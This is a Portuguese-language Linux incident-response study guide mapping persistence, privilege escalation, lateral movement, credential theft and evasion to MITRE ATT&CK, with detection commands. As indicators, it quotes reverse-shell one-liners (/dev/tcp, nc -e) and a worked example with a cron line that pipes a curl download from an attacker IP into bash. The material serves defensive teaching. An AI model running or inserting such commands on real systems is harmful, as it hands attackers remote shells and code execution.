

# Persistência, Escalada e Movimento Lateral no Linux

> **Objetivo pedagógico:** localizar mecanismos de persistência, indícios de escalada de privilégio, movimentação lateral, roubo de credenciais, evasão e rootkits em sistemas Linux, ligando os achados às técnicas do MITRE ATT&CK e definindo comandos de verificação.

## 1. Persistência

| Mecanismo | ATT&CK | Onde procurar |
|---|---|---|
| Cron | T1053.003 | `/etc/crontab`, `/etc/cron.d/`, `/etc/cron.{hourly,daily,weekly,monthly}/`, `/var/spool/cron/` ou `/var/spool/cron/crontabs/` |
| `at` | T1053.002 | `/var/spool/at/` |
| Serviços systemd | T1543.002 | `/etc/systemd/system/`, `/usr/lib/systemd/system/`, `~/.config/systemd/user/` |
| Timers systemd | T1053.006 | `systemctl list-timers --all`, arquivos `.timer` |
| Scripts de inicialização | T1037.004 | `/etc/rc.local`, `/etc/init.d/`, `/etc/rc*.d/` |
| Configuração do shell | T1546.004 | `~/.bashrc`, `~/.profile`, `~/.bash_profile`, `/etc/profile`, `/etc/profile.d/`, `/etc/bash.bashrc` |
| Chaves SSH autorizadas | T1098.004 | `~/.ssh/authorized_keys` e `AuthorizedKeysFile` em `sshd_config` |
| Contas locais | T1136.001 | `/etc/passwd`, `/etc/shadow`, `auth.log` |
| Autostart gráfico | T1547.013 | `~/.config/autostart/`, `/etc/xdg/autostart/` |
| Interceptação por bibliotecas (LD_PRELOAD) | T1574.006 | `/etc/ld.so.preload`, variáveis `LD_PRELOAD` e `LD_LIBRARY_PATH` |
| Módulos de kernel (rootkits) | T1547.006 | `lsmod`, `/lib/modules/`, `/etc/modules-load.d/` |
| Módulos PAM | T1556.003 | `/etc/pam.d/`, `/lib/security/` e `/lib64/security/` |
| Web shells | T1505.003 | Diretórios web com arquivos recentes ou ofuscados |
| Ganchos de pacotes | Persistência | `/etc/apt/apt.conf.d/` (scripts), repositórios adicionais |

### 1.1 Consultas de verificação

```bash
# Contas com UID 0
awk -F: '$3==0 {print $1}' /etc/passwd

# Contas sem senha
awk -F: '($2=="") {print $1}' /etc/shadow

# Serviços e timers habilitados
systemctl list-unit-files --state=enabled
systemctl list-timers --all

# Tarefas agendadas de todos os usuários
for u in $(cut -d: -f1 /etc/passwd); do echo "== $u"; crontab -u "$u" -l 2>/dev/null; done
ls -la /etc/cron* /var/spool/cron* 2>/dev/null

# Pré-carregamento de bibliotecas
cat /etc/ld.so.preload 2>/dev/null; env | grep -E "LD_PRELOAD|LD_LIBRARY_PATH"

# Binários com SUID e SGID
find / -xdev \( -perm -4000 -o -perm -2000 \) -type f -ls 2>/dev/null

# Arquivos modificados em uma janela (comparar com outras fontes)
find / -xdev -type f -newermt "2026-10-26" ! -newermt "2026-10-29" -ls 2>/dev/null | head -200

# Integridade de pacotes
debsums -c 2>/dev/null      # Debian e Ubuntu
rpm -Va 2>/dev/null          # RHEL e derivadas
```

Em análise offline, use `chroot` somente com cautela; prefira executar as consultas a partir da estação de análise apontando para a imagem montada em modo somente leitura (por exemplo, `find /mnt/analise ...`).

### 1.2 Indicadores suspeitos

| Indicador | Interpretação |
|---|---|
| Executáveis em `/tmp`, `/var/tmp`, `/dev/shm`, diretórios ocultos (nomes iniciados por `.`) | Local atípico |
| Arquivo em cron ou systemd chamando `curl`, `wget`, `bash -c` ou `base64` | Download e execução |
| Unidade systemd cujo `ExecStart` aponta para caminho incomum | Serviço malicioso |
| Chave SSH em `authorized_keys` sem associação a pessoa conhecida | Acesso persistente |
| Binário do sistema com hash divergente do pacote | Substituição (trojan) |
| Módulo de kernel desconhecido | Rootkit |
| Nome parecido com serviços legítimos | Masquerading (T1036.005) |

## 2. Escalada de privilégio

| Técnica | ATT&CK | Evidências |
|---|---|---|
| Abuso de `sudo` | T1548.003 | Entradas `sudo` em `auth.log`, `/etc/sudoers.d/` alterados, uso de `NOPASSWD` |
| Binários SUID e SGID | T1548.001 | Novos binários SUID, shells copiados com bit SUID |
| Exploração de vulnerabilidades de kernel e de serviços | T1068 | Mensagens de falha no `dmesg`, módulos e processos filhos incomuns de serviços |
| Montagem do socket do Docker | T1611 | Usuários no grupo `docker`, contêineres privilegiados |
| Capabilities de arquivos | T1548 | `getcap -r / 2>/dev/null` |
| Tarefas de cron do root com scripts graváveis | T1053.003 | Permissões e proprietários dos scripts |

```bash
getcap -r / 2>/dev/null
ls -l /etc/sudoers /etc/sudoers.d/
grep -R "NOPASSWD" /etc/sudoers /etc/sudoers.d/ 2>/dev/null
```

## 3. Movimento lateral

| Técnica | ATT&CK | Evidências |
|---|---|---|
| SSH com credenciais ou chaves | T1021.004 | `auth.log` no destino (Accepted), `known_hosts` e histórico na origem, conexões de rede |
| Encaminhamento do agente SSH | T1563.001 | Variável `SSH_AUTH_SOCK`, sockets em `/tmp/ssh-*`, `ForwardAgent yes` |
| Túneis e proxies | T1572 e T1090 | `ssh -L`, `-R`, `-D`, `ProxyJump`, processos de túnel |
| Cópia de arquivos e ferramentas | T1105 | `scp`, `rsync`, `sftp`, `curl`, `wget` |
| Uso de chaves e credenciais roubadas | T1552.004 e T1078 | Acesso a `~/.ssh/id_*`, a credenciais de nuvem e a `~/.kube/config` |
| Execução remota por ferramentas de automação | T1072 | Logs de Ansible, Salt e Puppet |

Reconstrução:

1. No destino, identifique `Accepted` no `auth.log`, com origem, usuário e método.
2. Na origem, procure `ssh`, `scp` e `rsync` em históricos, auditd e memória, e verifique `known_hosts` e `config`.
3. Identifique a chave usada pela impressão digital e encontre onde foi autorizada e onde foi roubada ou copiada.
4. Siga a sessão no destino (comandos, `sudo`, novos arquivos).
5. Correlacione com firewall e fluxos de rede, e monte o grafo origem, destino, conta e horário.



## 4. Credenciais

| Técnica | ATT&CK | Onde procurar |
|---|---|---|
| Leitura de `/etc/shadow` e `/etc/passwd` | T1003.008 | auditd (acesso a `/etc/shadow`), cópias em `/tmp`, uso de ferramentas de quebra de senha |
| Credenciais em arquivos | T1552.001 | Históricos, `.env`, `.git-credentials`, `.netrc`, `~/.docker/config.json`, scripts |
| Chaves privadas | T1552.004 | `~/.ssh/id_*`, chaves de certificados em `/etc/ssl/private` |
| Credenciais de nuvem | T1552.005 e T1552.001 | `~/.aws/credentials`, `~/.config/gcloud`, `~/.azure/`, `~/.kube/config` |
| Memória de processos (agente SSH, aplicações) | T1003 | Captura de memória e análise |
| Modificação do PAM | T1556.003 | Módulos PAM alterados e logs de autenticação inconsistentes |

Após a confirmação, trate as credenciais, as chaves e os tokens como comprometidos e planeje a rotação.

## 5. Evasão de defesas

| Técnica | ATT&CK | Evidências |
|---|---|---|
| Apagar ou truncar logs | T1070.002 | Arquivos com tamanho zero, lacunas, auditd registrando `rm` ou `truncate` |
| Limpar o histórico | T1070.003 | `history -c`, `unset HISTFILE`, `.bash_history` com `ctime` recente |
| Alterar carimbos | T1070.006 | `touch -d` e `touch -r`; `mtime` incompatível com `ctime` e `crtime` |
| Binários e processos disfarçados | T1036.005 | Nomes iguais aos de processos do sistema em caminhos incomuns |
| Rootkits e interceptação | T1014 e T1574.006 | `/etc/ld.so.preload`, módulos desconhecidos, divergência entre `ps` e `/proc` |
| Execução sem arquivo (memfd) | T1620 | Processos com `exe` apontando para `memfd:` |
| Binários excluídos em execução | Observação | `ls -l /proc/*/exe 2>/dev/null \| grep '(deleted)'` |

```bash
# Processos cujo binário foi apagado
ls -l /proc/*/exe 2>/dev/null | grep '(deleted)'

# Processo executando de memória anônima
ls -l /proc/*/exe 2>/dev/null | grep memfd

# Comparar processos visíveis por ps e por /proc
diff <(ps -e -o pid= | sort -n) <(ls /proc | grep -E '^[0-9]+$' | sort -n)
```

Para rootkits, desconfie dos resultados do próprio sistema comprometido: use memória, imagens e binários confiáveis.

## 6. Indícios de malware comum em Linux

| Tipo | Indícios |
|---|---|
| Mineradores de criptomoedas (T1496) | CPU elevada, processos com nomes de serviços, conexões a pools, cron e systemd de persistência |
| Reverse shells | `bash -i >& /dev/tcp/IP/porta 0>&1`, `nc -e`, `python -c 'import socket...'` em históricos e em auditd; conexões `ESTABLISHED` incomuns |
| Botnets | Varredura de SSH, tráfego para portas incomuns, binários em `/tmp` |
| Ransomware para Linux | Arquivos com extensão alterada e notas de resgate; processos que acessam muitos arquivos |
| Web shells | Arquivos PHP, JSP ou ASPX com funções de execução (`eval`, `system`) em diretórios web |

## 7. Exemplo prático: persistência por cron e systemd

| Fonte | Achado |
|---|---|
| `/var/spool/cron/crontabs/root` | Linha `*/5 * * * * curl -s http://198.51.100.9/u.sh \| bash`; `mtime` 02:17Z |
| `/etc/systemd/system/syshelper.service` | `ExecStart=/var/tmp/.syshelper`; habilitado |
| `auditd` | `EXECVE` de `systemctl enable syshelper` às 02:18Z |
| Binário `/var/tmp/.syshelper` | Sem pacote associado (`dpkg -S` sem resultado), ELF empacotado |
| Rede | Conexões periódicas (beaconing) ao IP 198.51.100.9 |
| Conclusão | Persistência redundante (cron e systemd); T1053.003 e T1543.002; confiança alta |

## 8. Casos de uso corporativos

- Caça a persistência em frota de servidores após alerta de inteligência de ameaças.
- Reconstrução de movimentação por SSH entre servidores e para a nuvem.
- Investigação de servidores web comprometidos com web shells.

## 9. Normas e frameworks relevantes

- MITRE ATT&CK (Linux): Persistence, Privilege Escalation, Lateral Movement, Credential Access, Defense Evasion
- MITRE D3FEND
- CIS Controls v8.1, controles 5, 6, 8 e 17; CIS Benchmarks para Linux
- NIST SP 800-61 Rev. 3; ISO/IEC 27002:2022, controles 8.2, 8.15 e 8.16

## 10. Referências

- MITRE ATT&CK. https://attack.mitre.org
- Nikkel, B. Practical Linux Forensics. No Starch Press, 2021.
- Documentação do systemd, do cron, do OpenSSH e do auditd.
- SANS Institute. FOR577: Linux Incident Response and Threat Hunting.
- The DFIR Report. Casos públicos de intrusão em Linux.
- Debsums e RPM: documentação de verificação de pacotes.
